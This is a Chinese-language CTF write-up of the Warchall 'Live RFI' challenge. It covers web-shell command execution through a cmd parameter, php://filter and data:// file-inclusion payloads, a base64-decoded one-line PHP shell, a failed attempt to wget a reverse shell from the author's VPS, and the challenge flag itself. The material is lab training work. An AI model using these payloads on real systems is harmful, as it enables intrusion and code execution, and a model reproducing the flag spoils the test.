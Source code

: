 ```yaml
---
title: Warchall  Live RFI 远程文件包含
categories:
- CTF
tags:
- CTF
---
```

[题目地址](http://www.wechall.net/challenge/warchall/live_rfi/index.php)

访问http://rfi.warchall.net/。

web目录fuzz，以及index.php查看源码

## 远程命令执行漏洞


### 查看文件

```
http://rfi.warchall.net/temp/payload.php?cmd=ls
conf.txt
index.php.bak
live_rfi.config.php.bak
payload.php
sol.php~
sol.txt
solution.php.bak
tplc
```

http://rfi.warchall.net/temp/payload.php?cmd=pwd

/home/level/15_live_rfi/www/temp

![11](https://raw.githubusercontent.com/Whale3070/Whale3070.github.io/master/images/12-05-11/11.PNG)

---
```
http://rfi.warchall.net/temp/payload.php?cmd=ls%20-al%20/home/level/15_live_rfi/www

total 44
drwxr-x--- 5 root level15 4096 Jun  3  2012 .
drwxr-x--- 3 root level15 4096 May  8  2012 ..
drwxr-x--- 2 root level15 4096 May  8  2012 cache
-rwxr-x--- 1 root level15  168 Jun  3  2012 de
-rwxr-x--- 1 root level15  157 Jun  3  2012 en
-rwxr-x--- 1 root level15  894 Jun  3  2012 index.php
-rwxr-x--- 1 root level15 4762 Mar 14  2014 live_rfi.config.php
-rwxr-x--- 1 root level15  300 Jun  3  2012 solution.php
drwxrwx--- 3 root level15 4096 Jan 18  2019 temp
drwxr-x--- 4 root level15 4096 Jun  3  2012 tpl
```
### 获得flag
```
http://rfi.warchall.net/index.php?lang=php://filter/convert.base64-encode/resource=temp/payload.php

echo PHByZT48P3BocCBzeXN0ZW0oJF9HRVRbImNtZCJdKTsgPz48L3ByZT4=| base64 -d
<pre><?php system($_GET["cmd"]); ?></pre>

---
http://rfi.warchall.net/temp/payload.php?cmd=whoami

level15
权限不够，无法执行wget shell写入

---
http://rfi.warchall.net/temp/payload.php?cmd=pwd

/home/level/15_live_rfi/www/temp

---

`http://rfi.warchall.net/temp/payload.php?cmd=base64 /home/level/15_live_rfi/www/solution.php`

将solution.php base64编码，然后本地或者在线网站解码，翻到最下面就可以得到flag。

```
### 尝试写入shell

本地开启python server，放一个反弹shell的php脚本。

```
curl http://rfi.warchall.net/temp/payload.php?cmd=wget http://vps's IP:8080/php-reverse-shell.php -P /tmp/whale.php

目标机器成功访问vps的php-reverse-shell.php，但没有写入whale.php
---
http://rfi.warchall.net/temp/payload.php?cmd=ls /tmp/whale.php

```
没有成功在/tmp目录下写入shell。原因可能是权限太低了。

## writeup
```
import requests

url = "http://rfi.warchall.net/index.php"

params = {
    "lang": "data://text/plain,<?php print file_get_contents('solution.php',true);?>"
}

r = requests.get(url, params=params, verify=False)
print r.content

```
这是个什么操作？

访问`http://rfi.warchall.net/index.php?lang=data://text/plain,<?php print file_get_contents('solution.php',true);?>`

反正失败了，没得到solution.php的结果。使用另外一种伪协议php filter

http://rfi.warchall.net/index.php?lang=php://filter/convert.base64-encode/resource=/home/level/15_live_rfi/www/solution.php

```
echo PGh0bWw+Cjxib2R5Pgo8cHJlPk5PVEhJTkcgSEVSRT8/Pz88L3ByZT4KPC9ib2R5Pgo8L2h0bWw+CgoKCgoKCgoKCgoKCgoKCgoKCgoKCgoKCgoKCgoKCgoKCgoKCgoKCgoKCgoKCgoKCgoKCgoKCgoKCgoKCgoKCgoKCgoKICAgICAgICAgICAgICAgICAgICAgICAgICAgICAgICAgICAgICAgICAgICAgICAgICAgICAgICAgICAgICAgICAgICAgICAgICAgICAgICAgICAgICAgICAgICAgICAgICAgICAgICAgICAgICAgICAgICAgICAgICAgICAgICAgICAgICAgICA8P3BocCByZXR1cm4gJ0xvd19INE5HSU5HX0ZydWl0JzsgPz4K | base64 -d
```
同样可以获得solution.php

## 总结
出题方，肯定不会让人写入shell，或者反弹shell，不然服务器稳定性肯定会出问题。说不定会有些人写入垃圾数据塞满磁盘等等。

rfi和lfi的区别在于，远程文件包含危害更大，可以访问攻击者指定的文件。

在这里如果`http://rfi.warchall.net/temp/payload.php?cmd=wget http://vps's IP:8080/php-reverse-shell.php -P /tmp/whale.php`有写权限的话，就可以得到一个shell。而本地文件包含一般要通过文件上传的方式去传一个shell，然后再通过本地文件包含漏洞去执行，而rfi就不用。

不过这里payload.php看起来像是远程命令执行漏洞，不是个rfi。而其他人的writeup虽然使用了data伪协议，去访问flag，但看起来好像还是个lfi漏洞。可能是题目没出好。

感觉没有让做题的人深刻的感受到rfi与lfi的区别，只是用了一下伪协议的知识点。

## 参考资料
[浅谈文件包含漏洞](https://xz.aliyun.com/t/7176#toc-5)
